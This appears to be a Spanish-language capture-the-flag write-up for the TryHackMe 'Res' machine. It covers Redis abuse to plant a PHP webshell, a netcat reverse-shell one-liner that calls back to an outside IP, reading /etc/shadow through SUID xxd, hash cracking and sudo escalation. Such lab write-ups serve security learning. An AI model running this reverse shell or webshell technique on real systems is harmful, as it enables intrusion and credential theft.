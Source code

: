 ```yaml
---
layout: single
title: Res - TryHackMe
excerpt: "Debemos encontrar dos banderas. Donde a partir de un escaneo de puertos pude saber que hay un servicio Web, Redis. Además, debido a que no se ha configurado un mecanismo de autenticación en el acceso al servidor Redis, es que pude ejecutar algunos comandos con el fin de generar una webshell PHP haciendo una suposición en la ruta del directorio raíz del servidor web. Luego, a traves de la webshell ejecute un comando codificado en URL que me genero una reverse Shell. Luego, en la escalada de privilegio horizontal, aproveche que el archivo binario xxd tenia habilitado el bit SUID, logrando observar el contenido del archivo /etc/shadow con el fin de obtener el hash del usuario vianka. Además, cracke el hash con John The Ripper. Luego, en la escalada de privilegio vertical, aproveche que el usuario vianka podía ejecutar cualquier programa o comando con los privilegios de root mediante el comando sudo."
date: 2023-10-30	
classes: wide
header:
  teaser: /assets/images/Res/image002.png
  teaser_home_page: true
  icon: /assets/images/descarga7.webp
categories:
  - TryHackMe
  - ctf
tags:
  - Linux  
  - OpenVPN
  - PHP
  - HTTP
  - Suid
  - RCE
  - Sudo
  - xxd
  - John The Ripper
  - Redis
---
```


![](/assets/images/Res/image001.png)

## SUMMARY

Debemos encontrar dos banderas. Donde a partir de un escaneo de puertos pude saber que hay un servicio Web, Redis. Además, debido a que no se ha configurado un mecanismo de autenticación en el acceso al servidor Redis, es que pude ejecutar algunos comandos con el fin de generar una webshell PHP haciendo una suposición en la ruta del directorio raíz del servidor web. Luego, a traves de la webshell ejecute un comando codificado en URL que me genero una reverse Shell. Luego, en la escalada de privilegio horizontal, aproveche que el archivo binario xxd tenia habilitado el bit SUID, logrando observar el contenido del archivo /etc/shadow con el fin de obtener el hash del usuario vianka. Además, cracke el hash con John The Ripper. Luego, en la escalada de privilegio vertical, aproveche que el usuario vianka podía ejecutar cualquier programa o comando con los privilegios de root mediante el comando sudo.

## FASE RECONOCIMIENTO ACTIVO

En este caso debemos acceder al sistema destino y obtener las banderas. Para ello empezaremos utilizando el comando openvpn con el fin de establecer una conexión VPN con la red virtual dónde está la máquina Res. Para ello utilizaremos el archivo de configuración, que lo podemos descargar en la plataforma de Tryhackme, que puede incluir información como la dirección del servidor VPN, los certificados y claves de seguridad, la configuración de encriptación, etc.

![](/assets/images/Res/image003.png)

Luego de que se establece la conexión VPN se crea una interfaz virtual de red en nuestra máquina. Donde se enruta todo el tráfico de red a través de esa interfaz.

![](/assets/images/Res/image004.png)

Además, la plataforma de Tryhackme nos muestra la dirección IP de la máquina Res.

![](/assets/images/Res/image005.png)

## FASE ESCANEO Y ENUMERACION

Luego pasaremos a la fase de Escaneo y Enumeración con el fin de poder escanear los puertos del nodo. Además, obtendremos los servicios que se han levantado en los puertos abiertos, las versiones de los servicios, y el sistema operativo de la máquina Res. Para ello utilizaremos `Nmap`. Donde le pasaremos los siguientes parámetros:

- El parámetro -sC o –script=”default” para utilizar todos los scripts de la categoría default con el fin de realizar un escaneo y detección de los puertos de manera avanzada.
- El parámetros -sV con el fin de conocer las versiones de los servicios levantados en los puertos abiertos.
- El parámetro -n para evitar la resolución DNS, y el parámetro –max-rate para indicarle el número máximo de paquetes por segundo que va a utilizar Nmap para el escaneo con el fin de evitar sobrecargar la red con el tráfico generado por la herramienta.
- El parámetro -Pn para evitar que Nmap, que realice ningún tipo de sondeo o ping hacia el sistema destino con el fin de determinar si el host está vivo o activo, y realice el escaneo de puertos directamente.
- El parámetro -p- para realizar un escaneo de los 65535 puertos del nodo y el parámetro –open con el fin de que nos muestre información solo de los puertos abiertos.

![](/assets/images/Res/image006.png)

Los resultados que obtuvimos del escaneo vienen a ser:
- Un programa servidor Web en el puerto 80. Además, gracias a un script de Nmap, se puede observar la etiqueta title de la pagina web que viene por defecto al momento de instalar el programa servidor Web.
- Un servidor Redis ejecutado en el puerto 6379.

Ahora intentaremos acceder al servidor Redis, que permite almacenar datos en memoria por lo que permite recuperar los datos rápidamente.

![](/assets/images/Res/image007.png)

Podemos observar que no se ha configurado un mecanismo de autenticación para acceder al servidor Redis, es decir, se ha mantenido su configuración por defecto. Además, con el comando info Server, podremos obtener información sobre servidor Redis. Por ejemplo, el archivo ejecutable de Redis y su archivo de configuración que se esta utilizando. Además, podemos observar que ambos archivos están almacenados en el directorio home del usuario local vianka.

Ahora si buscamos en el motor de búsqueda de Google formas de generar una reverse Shell a traves de un servidor Redis, nos topamos con la página Hacktricks.

![](/assets/images/Res/image008.png)

## FASE GANAR ACCESO O HACKING O EXPLOTACION

Ahora tendremos que suponer que la ruta del directorio raíz del servidor web Apache es /var/www/html con el fin de generar una webshell PHP donde a traves de un parámetro GET vamos a poder ejecutar el comando `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.8.123.194 1800 >/tmp/f` en el sistema destino para que nos genere una reverse Shell. Además, el comando, que ingresamos al parámetro GET, debe estar codificado en URL.

![](/assets/images/Res/image009.png)

![](/assets/images/Res/image010.png)

![](/assets/images/Res/image011.png)

Podemos observar que logramos acceder al sistema destino siendo el usuario local www-data ya que el servidor web se está ejecutando con su cuenta.

## FASE ESCALADA PRIVILEGIOS

Ahora convertiremos nuestra reverse Shell en una Shell más estable e interactiva con el fin evitar de que se cierre en errores simples. Luego, buscaremos vectores de escalada privilegio de manera manual en el sistema de archivos del sistema destino.

![](/assets/images/Res/image012.png)

![](/assets/images/Res/image013.png)

Podemos observar uno de los archivos binarios ejecutables con el bit SUID habilitado es xxd.

Ahora buscaremos maneras de como utilizar este archivo binario para realizar una escalada privilegio en la página GTFB

![](/assets/images/Res/image014.png)

![](/assets/images/Res/image015.png)

Podemos observar que con el bit SUID habilitado en el archivo binario xxd podemos leer aquellos archivos que requieren privilegios de root para observar su contenido. Por esta razón decidí observar el contenido del archivo /etc/shadow. Donde podemos observar el hash del usuario vianka.

Ahora intentaremos crackear este hash con John The Ripper, pero primero identificaremos la función o algoritmo hash utilizada.

![](/assets/images/Res/image016.png)

![](/assets/images/Res/image017.png)

Podemos observar que la herramienta logro crackear el hash correspondiente al usuario vianka.

Ahora iniciaremos sesión en el sistema destino siendo el usuario vianka.

![](/assets/images/Res/image018.png)

De esta manera realizamos una escalada de privilegios horizontal.

Ahora realizaremos una enumeración manual sobre el sistema de archivos del sistema destino con el fin de buscar vectores de escalada privilegio en el sistema de archivos de este nuevo usuario local.

![](/assets/images/Res/image019.png)

Podemos observar que el usuario vianka puede ejecutar todos los programas y comandos con los privilegios de root a traves del comando sudo. Por esa razón es que ejecutaremos una nueva instancia de Shell con el comando sudo. 

De esta manera logramos realizar una escalada privilegio vertical.

Ahora buscaremos las dos banderas.

![](/assets/images/Res/image020.png)

























